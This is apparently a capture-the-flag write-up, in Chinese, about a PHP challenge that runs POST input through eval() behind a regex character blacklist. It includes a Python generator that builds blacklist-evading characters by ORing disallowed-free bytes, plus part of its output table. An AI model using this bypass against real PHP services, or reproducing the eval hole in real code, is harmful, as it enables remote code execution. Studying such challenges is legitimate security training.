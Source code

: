 ```php

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

利用 `|`

exp

```php
import re
content = ''
preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/'
for i in range(256):
    for j in range(256):
        if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
            k = i | j
            if k>=32 and k<=126:
                a = '%' + hex(i)[2:].zfill(2)
                b = '%' + hex(j)[2:].zfill(2)
                content += (chr(k) + ' '+ a + ' ' + b + '\n')
f = open('rce_or.txt', 'w')
f.write(content)
```

生成

```
a %60 %01
b %60 %02
c %60 %03
d %60 %04
e %60 %05
f %60 %06
g %60 %07
h %60 %08
i %60 %09
j %60 %0a
k %60 %0b
l %60 %0c
m %60 %0d
n %60 %0e
o %60 %0f
p %60 %10
q %60 %11
r %60 %12
s %60 %13
t %60 %14
u %60 %15
v %60 %16
w %60 %17
x %60 %18
y %60 %19
z %60 %1a
{ %60 %1b
| %60 %1c
} %60 %1d
~ %60 %1e
` %60 %20
```
